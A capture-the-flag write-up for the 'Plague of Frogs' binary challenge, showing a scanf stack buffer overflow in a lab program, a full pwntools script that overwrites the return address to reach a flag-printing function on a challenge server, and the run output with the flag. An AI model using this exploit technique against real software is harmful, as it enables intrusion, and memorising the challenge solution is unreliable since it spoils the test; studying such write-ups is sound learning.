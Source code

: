 
# Plague of Frogs

## Description

> > “I will smite all your territory with frogs. So the river shall bring forth frogs abundantly, which shall go up and come into your house, into your bedroom, on your bed, into the houses of your servants, on your people, into your ovens, and into your kneading bowls. And the frogs shall come up on you, on your people, and on all your servants.” (Exodus 8:2-4).
> 
> You will be delving into the tale of the puzzling demise of frogs that troubled the wetlands. Can you unveil the enigmas concealed within and crack the puzzle?

A binary file and a server address were attached.

## Solution

Let's run the attached binary:

```console
┌──(user@kali)-[/media/sf_CTFs/basmach/Plague_of_frogs]
└─$ ./frog
What is your name?
test
Goodbye test!
```

The program reads a name from the user, prints it and exits.

Inspecting the disassembly with Ghidra, we can see a very simple `main` function:

```c
undefined8 main(void)
{
  undefined local_78 [112];
  
  puts("What is your name? ");
  fflush(stdout);
  __isoc99_scanf("%129s",local_78);
  printf("Goodbye %s!\n",local_78);
  return 0;
}
```

We can also spot a clear vulnerability: `scanf` reads up to `129` bytes into a buffer of `112` bytes! We might be able to use this to overwrite the return address and jump somewhere else. Where to? Well, luckily we have the following function as well:

```c
undefined8 jump(void)
{
  ssize_t sVar1;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined2 local_10;
  int local_c;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  local_c = open("flag",0x100);
  sVar1 = read(local_c,&local_28,0x1a);
  if (sVar1 != 0x1a) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  puts((char *)&local_28);
  fflush(stdout);
  return 0;
}
```

This function will print the flag. 

One last check before we proceed:

```console
┌──(user@kali)-[/media/sf_CTFs/basmach/Plague_of_frogs]
└─$ checksec ./frog
[*] '/media/sf_CTFs/basmach/Plague_of_frogs/frog'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No canary, no PIE. So we're good to go with the following basic `pwntools` exploit script:

```python
# First generate a pwntools template with:
# $ pwn template --host 20.166.26.247 --port 1337 ./frog

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

import os

def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
    with open("/proc/sys/kernel/core_pattern") as f:
        core_pattern = f.read()
        if core_pattern.strip() == "core":
            from pathlib import Path
            raise Exception("Please run the following command first:\n"
                            "mkdir -p {0} && "
                            "sudo bash -c 'echo {0}/core_dump > /proc/sys/kernel/core_pattern'"
                            .format(Path.home() / "core"))
    #os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")
    os.system("rm core.* > /dev/null")
    proc = process(exe.path)
    payload = cyclic(130, n = exe.bytes)
    proc.sendline(payload)
    proc.wait()
    offset = cyclic_find(proc.corefile.fault_addr, n = exe.bytes )
    log.info("Overflow offset: {}".format(offset))
    return offset

overflow_offset = get_overflow_offset()
log.info(f"jump() address: {hex(exe.symbols['jump'])}")

payload = fit({overflow_offset: p64(exe.symbols['jump'])})

io = start()
io.sendline(payload)
io.readline()
io.readline()
log.success(f"Flag: {io.readlineS()}")
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/basmach/Plague_of_frogs]
└─$ python3 exploit.py
[*] '/media/sf_CTFs/basmach/Plague_of_frogs/frog'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/media/sf_CTFs/basmach/Plague_of_frogs/frog': pid 2420
[*] Process '/media/sf_CTFs/basmach/Plague_of_frogs/frog' stopped with exit code -11 (SIGSEGV) (pid 2420)
[+] Parsing corefile...: Done                                                                                                                                                      [*] '/media/sf_CTFs/basmach/Plague_of_frogs/core.2420'
    Arch:      amd64-64-little
    RIP:       0x4012de
    RSP:       0x7ffece2b0cd8
    Exe:       '/media/sf_CTFs/basmach/Plague_of_frogs/frog' (0x400000)
    Fault:     0x6161616161616170
[*] Overflow offset: 120
[*] jump() address: 0x4011f6
[+] Opening connection to 20.166.26.247 on port 1337: Done
[+] Flag: BSMCH{PR0T3CTED_F00D}
[*] Closed connection to 20.166.26.247 port 1337
```